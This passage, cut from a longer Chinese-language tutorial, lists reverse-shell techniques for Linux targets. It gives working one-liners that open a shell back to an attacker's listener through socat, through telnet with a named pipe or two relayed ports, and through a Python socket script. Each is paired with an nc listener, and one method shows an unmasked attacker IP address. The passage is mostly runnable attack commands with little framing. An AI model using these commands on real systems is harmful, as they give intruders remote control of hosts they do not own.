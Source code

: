 攻击机开启本地监听：

socat TCP-LISTEN:2333 -  
或  
nc -lvvp 2333  
 

目标机主动连接攻击机：

socat tcp-connect:47.xxx.xxx.72:2333 exec:'bash -li',pty,stderr,setsid,sigint,sane  
 

执行效果如下：

## 利用Telnet反弹shell

当nc和/dev/tcp不可用，且目标主机和攻击机上支持Telnet服务时，我们可以使用Telnet反弹shell。

### 方法一

攻击机开启本地监听：

nc -lvvp 2333  
 

目标机主动连接攻击机：

mknod a p; telnet 47.xxx.xxx.72 2333 0<a | /bin/bash 1>a  
 

执行效果如下：

### 方法二

攻击机需要开启两个本地监听：

nc -lvvp 2333  
nc -lvvp 4000  
 

目标机主动连接攻击机：

telnet 47.101.57.72 2333 | /bin/bash | telnet 47.101.57.72 4000  
 

如上图所示，获得shell后，在攻击机2333端口的终端上输入的命令会在目标机上执行，执行的回显将通过4000端口的终端显示出来。

## 各种脚本反弹shell

### Python 脚本反弹shell

当目标主机上有python环境时，我们可以用Python来反弹shell。Python在现在一般发行版Linux系统中都会自带，所以使用起来也较为方便，即使没有安装，我们手动安装也很方便。

攻击机开启本地监听：

nc -lvvp 2333  
 

目标机主动连接攻击机：

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.xxx.xxx.72",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  
 